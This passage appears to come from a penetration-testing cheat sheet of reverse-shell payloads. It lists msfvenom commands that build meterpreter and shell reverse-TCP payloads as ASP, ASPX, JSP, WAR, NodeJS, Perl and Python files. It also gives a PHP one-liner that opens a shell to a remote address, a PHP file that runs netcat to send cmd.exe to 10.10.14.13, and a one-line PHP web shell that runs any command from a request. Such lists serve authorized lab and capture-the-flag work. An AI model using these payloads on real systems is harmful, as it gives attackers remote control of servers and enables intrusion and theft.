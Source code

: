 ##### Reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
#### JSP

##### Reverse shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
#### WAR

##### Reverse Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
#### NodeJS

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
### **Script Language payloads**

#### **Perl**

```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
#### **Python**
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
#### PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
<?php

system('nc.exe -e cmd.exe 10.10.14.13 4444')

?>

<?php system($_REQUEST["cmd"]); ?>
```

### PHP Proc_Open
https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7
https://0xdf.gitlab.io/2023/01/21/htb-updown.html
